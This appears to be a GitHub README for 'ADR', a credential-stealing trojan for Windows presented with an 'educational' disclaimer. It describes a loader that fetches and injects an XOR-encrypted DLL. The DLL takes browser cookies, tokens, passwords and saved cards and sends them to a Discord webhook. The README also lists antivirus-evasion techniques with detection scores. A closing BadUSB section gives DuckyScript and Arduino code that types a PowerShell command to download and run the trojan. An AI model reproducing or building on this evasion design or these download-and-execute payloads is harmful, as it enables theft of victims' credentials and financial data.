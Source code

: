 # ADR 💥

ADR is a trojan that retrieves all information on the computer and all data stored in applications using chormium. It recovers cookies, tokens, passwords and saved bank cards. This malware is undetectable by Windows Defender, Chrome, Virustotal (~8/72).

> ⚠️ This project has a strictly educational objective. It aims to provide information, advice and resources in an educational context. I want to emphasize that I do not support or encourage any malicious or damaging use of this information. Any negative or abusive interpretation goes against the educational intent of this project. As the creator of this content, I accept no responsibility for any misuse that may arise from its use.

## bADR (EXE)

bADR is the entry program that will load ADR (the DLL that contains the malware).
bADR downloads the DLL online, this DLL is encrypted in XOR so as not to be detected by the antivirus. The DLL is then decoded and then injected into the memory of the process to execute the "main" function.

* download the DLL encode in XOR
* decode the XOR
* loading the DLL into memory (without using LoadLibraryA)
* execution of the "main" function of the ADR malware


bADR uses a few tricks to avoid being detected by anti-viruses, in particular:

* hiding suspicious functions using LoadLibrary and GetProcAddress (so imports are hidden and not visible in the executable)
* the masking of character strings, the url at which the payload is located, encrypt in XOR so as not to be readable in the executable directly
* optimization of compiler parameters and compression with UPX
* to make it possible to hide the imports even more, if we do not have an executable heavier in KB, we can change the Runtime Library. Indeed, switching from Multi-threaded DLL mode (/MD) to Multi-threaded mode (/MT) hides all imports (with UPX). However, it takes about 40 KB more than the Multi-threaded DLL version.

## ADR (DLL)

ADR is compiled in DLL, encoded in XOR, then uploaded to a server to be loaded later by bADR. 
the main function is the entry point of the malware, this function aims to:

* scan Windows AppData folder for folder using Chromium file structure
* recover all cookies, tokens, passwords, local state, credit card, history and autocompletion
* find all the information on the machine used
    * MAC Address
    * Public IP
    * Processor
    * Architecture
    * Storage
    * Local Time
    * Language
    * Machine Name
* all this data is then compressed into a Zip file which will be sent to a discord webhook (obviously this data can be sent to any public server or webhook).

## gADR (EXE)

gADR is the Golang version of bADR. With this version we reached the score of 4/71 detection on virustotal. This results and largely due to the obfuscator: garble, which allowed this incredible result. The golang code does not change much from the C version, loading the DLL into memory reuses the C code from bADR and is compiled with CGO.

> why no compression with UPX?

gARD will not decompress with UPX because it is much more detectable with compression enabled. The gADR.exe pyaload is therefore heavier (5 MB).

> Compile with Garble

```cmd
@REM install it: go install mvdan.cc/garble@latest
@REM build:

build.bat
```

### Anti Virus

**bADR (EXE)**

*   ❔     Virustotal 6/70 
*   ✅     Windows Defender, Chrome AntiVirus, Manalyzer

**gADR (EXE)**

*   ❔     Virustotal 4/70 
*   ✅     Windows Defender, Chrome AntiVirus, Manalyzer


**ADR (XOR)**
*   ✅     Virustotal, Windows Defender,  Chrome AntiVirus, Manalyzer

**ADR (DLL)**

*   ❔     Virustotal 2/70 
*   ❌  Windows Defender,  Chrome AntiVirus
*   ✅  Manalyzer


### UPX compression

ADR and bADR files are compressed with UPX to reduce the size of the payload.

```
bADR.exe 15   ko => 10   ko  (Runtime Library Multi-threaded DLL /MD)
bADR.exe 114  ko => 54   ko  (Runtime Library Multi-threaded /MT)
ADR.dll  17  ko => 10.5  ko
```

### Demo (v1, v2, v3)

> ⚠️ This demo is only valid for release 3 or later, the following versions no longer use discord to store the information

Once the malware is launched, all the information is then sent to a url. In the demo, it's a discord webhook that displays the data we collect.
This data comes from a Virustotal virtual machine that checks and analyzes the behavior of the malware.
Here is the message we receive from the webhook after the program is launched on one of these virtual machines:

![demo.png](demo.png)


### Bonus BadUSB

__Digispark Rev.3 Kickstarter with Attiny85 and USB compatible with Arduino__

  You can buy it [here](https://www.az-delivery.de/en/products/digispark-board).

> DuckyScript

```
DELAY 1000
GUI r
DELAY 200
STRING powershell -command "(New-Object Net.WebClient).DownloadFile('https://github.com/julesgrc0/ADR/releases/download/0.0.3/bADR.exe','%userprofile%\bADR.exe');(New-Object -com shell.application).shellexecute('%userprofile%\bADR.exe');exit"
ENTER
```

> Arduino C/C++ Code

```cpp
#include "Keyboard.h"

void typeKey(uint8_t key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}


void setup()
{
  Keyboard.begin();
  delay(500);

  delay(1000);
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.releaseAll();

  delay(200);
  Keyboard.print(F("powershell -command \"(New-Object Net.WebClient).DownloadFile('https://github.com/julesgrc0/ADR/releases/download/0.0.3/bADR.exe','%userprofile%\\bADR.exe');(New-Object -com shell.application).shellexecute('%userprofile%\\bADR.exe');exit\""));

  typeKey(KEY_RETURN);

  Keyboard.end();
}

void loop() {}
```